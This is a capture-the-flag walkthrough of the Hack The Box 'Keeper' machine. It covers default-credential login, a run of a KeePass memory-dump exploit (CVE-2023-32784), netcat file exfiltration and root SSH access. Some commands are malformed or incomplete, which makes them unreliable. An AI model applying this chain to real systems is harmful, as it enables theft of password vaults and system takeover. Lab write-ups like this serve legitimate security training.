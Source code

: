 # Unlocking the Secrets of Keeper: A Journey to Root Access

![keeper-htb ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/274cad23-f3e3-4ac9-b9a0-b2b6539d214e)



## Introduction

In the exhilarating realm of ethical hacking, each machine encountered on platforms like Hack The Box presents fresh challenges and captivating discoveries. Keeper, an enigmatic HTB machine, follows suit. This guide will lead you through a systematic journey to conquer Keeper, navigating from the initial foothold to securing the coveted root flag. So, equip your virtual backpack, don your ethical hacker hat, and let's plunge into the adventure!

## Step 1: Setting the Stage

The first step is to identify the machine's IP address. We'll use this address to create a handy host entry for easy access.


```bash
echo "ip tickets.keeper.htb" | sudo tee -a /etc/hosts
```

## Step 2: Reconnaissance with Nmap
Now that we're properly set up, it's time to scan for open ports. We'll start with a basic scan to identify ports 22 (SSH) and 80 (HTTP).

```bash
nmap -p 22,80 tickets.keeper.htb/ipaddressofmachine
```

## Step 3: Exploring the Web
Access the machine's IP address in your browser and observe the redirection to the login page. It's time to play detective and try some random credentials. Miraculously, we're in!

```
Username: root
Password: password
```

## Step 4: The Admin Panel
Navigate to the admin section and prepare to uncover a user's password.

## Step 5: SSH Connection
Connect via SSH using the provided credentials:

```bash

ssh lnorgaard@tickets.keeper.htb Password: Welcome2023!
```

## Step 6: User Flag
With SSH access in hand, locate the user flag:

```bash

ls cat user.txt
```

## Step 7: The CVE and Keepass
Discover a critical CVE and grab the exploit from the following link: [CVE-2023-32784(poc.py)](10.10.11.227/poc.py). Download it to your local machine.

## Step 8: Moving Files
To transfer files between your local machine and the HTB machine, you can use netcat. Run the following commands:

## On the HTB machine:

```bash
nc -nlvp 1234 > poc.py
```

## On your local machine:

```bash
nc [keeperip] 1234 < poc.py
```

Verify the file transfer with ls and cat poc.py.

## Step 9: Exploiting Keepass
Execute the exploit on the HTB machine:


```bash
python3 poc.py -d KeePassDumpFull.dmp
```

_Retrieve the password: rødgrød med fløde_

## Step 10: Using Keepass
Back on your local machine, install Keepass2 with:

```bash

apt install keepass2
```

## Step 11: Unveiling the Secrets
On the HTB machine, locate passcodes.kdbx. Transfer it to your local machine using netcat.

## On your local machine:

```bash
nc -nlvp 1234 > passcodes.kdbx
```
After a brief wait, __press Ctrl+C__.

## Step 12: Keepass Unlocked
Open Keepass2, select "Open File," and choose passcodes.kdbx. Enter the password you found (rødgrød med fløde). Inside, you'll discover user and root credentials.

## Step 13: Root Access
Access the root SSH key, copy it, and save it as root.ppk. Use Puttygen to convert the key:

```bash
puttygen root.ppk -O private-openssh -o id_rsa
```
Finally, SSH into Keeper with root privileges:

```bash
ssh root@tickets.keeper.htb -i id_rsa
```
Discover the root flag:

```bash
ls cat root.txt
```

<hr><ht/>

  # CVE-2023-32784 
  ___KeePass2 Master Password Dumper (CVE-2023-32784)___

  This is a CVE-2023-32784 proof-of-concept implemented in Rust. The code is probably ugly due to my poor coding skills, feel free to make a PR to improve it.


  CVE-Credit:vdohney
<hr><ht/>


  
# Conclusion:
Our experience in conquering the Keeper HTB machine was not only exciting but also educational. We trust that this guide has illuminated the path of ethical hacking, spanning from the initial reconnaissance phase to achieving root access. Always bear in mind that ethical hacking is a journey of learning, self-challenge, and continuous enhancement of your cybersecurity skills. Happy hacking!
